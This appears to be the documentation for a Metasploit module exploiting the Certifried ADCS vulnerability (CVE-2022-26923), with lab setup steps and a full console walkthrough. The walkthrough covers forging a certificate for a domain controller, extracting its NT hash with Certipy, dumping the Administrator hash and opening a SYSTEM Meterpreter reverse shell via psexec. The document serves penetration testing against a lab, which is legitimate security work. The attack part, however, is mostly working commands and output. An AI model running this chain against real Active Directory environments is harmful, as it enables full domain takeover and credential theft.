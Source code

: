## Vulnerable Application

This adds an auxiliary module that exploits a privilege escalation
vulnerability in Active Directory Certificate Services (ADCS) known as
Certifried (CVE-2022-26923) to generate a valid certificate impersonating the
Domain Controller computer account. This certificate can be used along with
[Certipy](https://github.com/ly4k/Certipy) or
[BloodyAD](https://github.com/CravateRouge/bloodyAD) to get a TGT and access
the DC as an Administrator.

The module will go through the following steps:
1. Create a computer account
1. Change the new computer's `dNSHostName` attribute to match that of the DC
1. Request a certificate for this computer account and store it in the loot
1. Delete the computer account (only possible if the user is an administrator)


### Installing ADCS on a DC

- Open the Server Manager
- Select Add roles and features
- Select "Active Directory Certificate Services" under the "Server Roles" section
- When prompted add all of the features and management tools
- On the AD CS "Role Services" tab, leave the default selection of only "Certificate Authority"
- Completion the installation and reboot the server
- Reopen the Server Manager
- Go to the AD CS tab and where it says "Configuration Required", hit "More" then "Configure Active Directory Certificate..."
- Select "Certificate Authority" in the Role Services tab
- Keep all of the default settings, noting the value of the "Common name for
  this CA" on the "CA Name" tab (this value corresponds to the CA datastore
  option)
- Accept the rest of the default settings and complete the configuration


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `run rhosts=<remote host> SMBUser=<username> SMBPass=<user password> SMBDomain=<FQDN domain name> dc_name=<DC hostname> ca=<CA Name>`
1. Verify the module executes all the steps listed above
1. Verify the certificate is retrieved and stored in the loot


## Options

### DC_NAME

The name of the domain controller being targeted (must match RHOST)

### LDAP_PORT

The LDAP port. The default is 636 on an encrypted channel and 389 on a non-encrypted channel.

## Scenarios

### Windows Server 2019 Domain Controller with ADCS installed
```
msf6 auxiliary(admin/dcerpc/cve_2022_26923_certifried) > run verbose=true rhosts=10.0.0.24 SMBUser=test SMBPass=123456 SMBDomain=mylab.local dc_name='DC02' ca=mylab-DC02-CA
[*] Running module against 10.0.0.24

[*] 10.0.0.24:445 - Requesting the ms-DS-MachineAccountQuota value to see if we can add any computer accounts...
[+] 10.0.0.24:445 - Successfully authenticated to LDAP (10.0.0.24:636)
[*] 10.0.0.24:445 - ms-DS-MachineAccountQuota = 10
[*] 10.0.0.24:445 - Connecting SMB with test.mylab.local:123456
[*] 10.0.0.24:445 - Connecting to Security Account Manager (SAM) Remote Protocol
[*] 10.0.0.24:445 - Binding to \samr...
[+] 10.0.0.24:445 - Bound to \samr
[+] 10.0.0.24:445 - Successfully created mylab.local\DESKTOP-0GUXZOAE$ with password jwei99cs1ZJipQcegi8n8TMbQIlsBVXg
[*] 10.0.0.24:445 - Disconnecting SMB
[+] 10.0.0.24:445 - Successfully authenticated to LDAP (10.0.0.24:636)
[*] 10.0.0.24:445 - Retrieved original DNSHostame dc02.mylab.local for DC02
[*] 10.0.0.24:445 - Attempting to set the DNS hostname for the computer DESKTOP-0GUXZOAE$ to the DNS hostname for the DC: DC02
[*] 10.0.0.24:445 - Retrieved original DNSHostame dc02.mylab.local for DESKTOP-0GUXZOAE$
[+] 10.0.0.24:445 - Successfully changed the DNS hostname
[*] 10.0.0.24:445 - Connecting SMB with DESKTOP-0GUXZOAE$.mylab.local:jwei99cs1ZJipQcegi8n8TMbQIlsBVXg
[*] 10.0.0.24:445 - Connecting to ICertPassage (ICPR) Remote Protocol
[*] 10.0.0.24:445 - Binding to \cert...
[+] 10.0.0.24:445 - Bound to \cert
[*] 10.0.0.24:445 - Requesting a certificate for user DESKTOP-0GUXZOAE$ - template: Machine
[+] 10.0.0.24:445 - The requested certificate was issued.
[*] 10.0.0.24:445 - Certificate stored at: /home/msfuser/.msf4/loot/20220927185732_default_unknown_windows.ad.cs_673960.pfx
[*] 10.0.0.24:445 - Disconnecting SMB
[*] 10.0.0.24:445 - Connecting SMB with test.mylab.local:123456
[*] 10.0.0.24:445 - Connecting to Security Account Manager (SAM) Remote Protocol
[*] 10.0.0.24:445 - Binding to \samr...
[+] 10.0.0.24:445 - Bound to \samr
[!] 10.0.0.24:445 - Unable to delete the computer account, this will have to be done manually with an Administrator account (Could not delete the computer DESKTOP-0GUXZOAE$: Error returned while deleting user in SAM server: (0xc0000022) STATUS_ACCESS_DENIED: {Access Denied} A process has requested access to an object but has not been granted those access rights.)
[*] 10.0.0.24:445 - Disconnecting SMB
[*] Auxiliary module execution completed
```

### Testing the Certificate

Certipy can be used to request a TGT using the certificate to authenticate. The
ticket will be stored in a `ccache` file and the DC NT hash will be displayed:
```
❯ PYTHONPATH=. python3 certipy/entry.py auth -pfx /home/msfuser/.msf4/loot/20220927185732_default_unknown_windows.ad.cs_673960.pfx -dc-ip 10.0.0.24
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: dc02$@mylab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'dc02.ccache'
[*] Trying to retrieve NT hash for 'dc02$'
[*] Got hash for 'dc02$@mylab.local': aad3b435b51404eeaad3b435b51404ee:<redacted>
```

The NT hash can then be used with the `auxiliary/gather/windows_secrets_dump` module to dump the Administrator NT hash:
```
msf6 auxiliary(gather/windows_secrets_dump) > set ACTION DOMAIN
ACTION => DOMAIN
msf6 auxiliary(gather/windows_secrets_dump) > run verbose=true rhosts=10.0.0.24 SMBUser=DC02$ SMBPass=aad3b435b51404eeaad3b435b51404ee:<redacted> SMBDomain=mylab.local
[*] Running module against 10.0.0.24

[*] 10.0.0.24:445 - Opening Service Control Manager
[*] 10.0.0.24:445 - Binding to \svcctl...
[+] 10.0.0.24:445 - Bound to \svcctl
...
# NTLM hashes:
MYLAB\Administrator:500:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
...
```

Finally, use this NT hash to get command execution with the `exploit/windows/smb/psexec` module:
```
msf6 exploit(windows/smb/psexec) > run verbose=true rhosts=10.0.0.24 SMBUser=Administrator SMBPass=aad3b435b51404eeaad3b435b51404ee:<redacted> SMBDomain=mylab.local

[*] Started reverse TCP handler on 10.0.0.1:4444
[*] 10.0.0.24:445 - Connecting to the server...
[*] 10.0.0.24:445 - Authenticating to 10.0.0.24:445|mylab.local as user 'Administrator'...
[*] 10.0.0.24:445 - Checking for System32\WindowsPowerShell\v1.0\powershell.exe
[*] 10.0.0.24:445 - PowerShell found
[*] 10.0.0.24:445 - Selecting PowerShell target
[*] 10.0.0.24:445 - Powershell command length: 4340
[*] 10.0.0.24:445 - Executing the payload...
[*] 10.0.0.24:445 - Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:10.0.0.24[\svcctl] ...
[*] 10.0.0.24:445 - Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:10.0.0.24[\svcctl] ...
[*] 10.0.0.24:445 - Obtaining a service manager handle...
[*] 10.0.0.24:445 - Creating the service...
[+] 10.0.0.24:445 - Successfully created the service
[*] 10.0.0.24:445 - Starting the service...
[+] 10.0.0.24:445 - Service start timed out, OK if running a command or non-service executable...
[*] 10.0.0.24:445 - Removing the service...
[+] 10.0.0.24:445 - Successfully removed the service
[*] 10.0.0.24:445 - Closing service handle...
[*] Sending stage (175686 bytes) to 10.0.0.1
[*] Meterpreter session 1 opened (10.0.0.1:4444 -> 10.0.0.1:58736) at 2022-09-27 21:26:10 +0200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DC02
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MYLAB
Logged On Users : 7
Meterpreter     : x86/windows
```
